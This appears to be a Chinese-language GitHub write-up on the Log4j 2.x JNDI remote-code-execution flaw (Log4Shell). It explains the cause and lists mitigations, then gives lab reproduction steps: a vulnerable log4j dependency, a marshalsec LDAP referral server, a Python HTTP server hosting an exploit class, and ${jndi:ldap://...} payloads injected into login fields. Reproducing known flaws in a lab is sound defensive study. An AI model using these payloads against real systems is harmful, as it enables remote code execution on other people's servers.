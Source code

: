漏洞的核心问题在于 Log4j 2.x 中的 JNDI 查找机制，它允许在日志消息中使用 `${}` 占位符来引用远程 JNDI 资源。攻击者可以构造一个包含恶意 JNDI 资源引用的日志消息，当应用程序尝试处理这个消息时，就会触发远程代码执行。这个问题影响了许多应用程序，尤其是那些使用默认配置并且处理用户提供的日志消息的应用程序。

针对这个漏洞，一些应对措施和建议包括：

- **升级到修复版本**：Apache Log4j 团队迅速发布了修复版本来解决这个问题。如果您的应用程序使用 Log4j，请尽快升级到受影响版本的修复版本。

- **过滤恶意输入**：如果您无法立即升级到修复版本，您可以考虑在应用程序中实施输入过滤，以防止恶意的日志消息触发漏洞。

- **配置安全策略**：您可以通过配置安全策略来限制应用程序访问 JNDI 资源。这有助于减少远程代码执行的风险。

- **检查应用程序依赖**：检查您的应用程序是否使用 Log4j，并确定所使用的版本。这可以帮助您确定是否受到漏洞的影响。

- **监控和响应**：监控您的应用程序日志，以便在发现异常活动时能够及时采取行动。

请注意，随着时间的推移，漏洞情况可能会发生变化，所以始终建议查阅官方安全公告和可靠的安全资源以获取最新信息和指导。

环境`pom.xml`添加依赖
```
<dependency>
            <groupId>org.apache.logging.log4j</groupId>
            <artifactId>log4j-core</artifactId>
            <version>2.8.1</version>
        </dependency>
        <dependency>
            <groupId>org.apache.logging.log4j</groupId>
            <artifactId>log4j-api</artifactId>
            <version>2.8.1</version>
        </dependency>
```

大致步骤  
1. 将Exp.java文件进行编译为Exp.class  
2. 在Exp.class同级目录python起一个服务,
```
python3 -m http.server 1234 
```
3. 先下载好marshalsec，进入文件夹，运行以下命令
```
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://127.0.0.1:1234/#Exp
```
4.用postman测试， post请求 参数添加 ${jndi:ldap://127.0.0.1:1389/Exp}  
例如：  
```
{
    "user": "${jndi:ldap://192.168.1.105:1389/Exp}",
    "password": "${jndi:ldap://192.168.1.105:1389/Exp}"
}
```

